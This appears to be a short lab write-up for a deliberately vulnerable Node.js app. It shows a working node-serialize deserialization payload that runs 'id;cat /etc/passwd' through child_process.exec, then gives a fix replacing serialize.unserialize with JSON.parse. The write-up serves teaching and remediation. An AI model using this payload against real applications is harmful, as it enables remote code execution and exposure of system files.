 
## Exploitation 

Json to exploit the vulnerability 
```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

which is the serialized version of
```js
var y = {
 rce : function(){
 require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
```

The attack is not visilble from front end because the commands we execute visible only with logs. 
Therefore, We need to SSH to the VM and see docker logs 
```
docker-compose logs
```



## Fix
---

Change the way we deserialize 

#### Changes to `appHandler.js`
```js
// Remove 
var products = serialize.unserialize(req.files.products.data.toString('utf8'))

// Add the following code		
var products = JSON.parse(req.files.products.data.toString('utf8'))
```


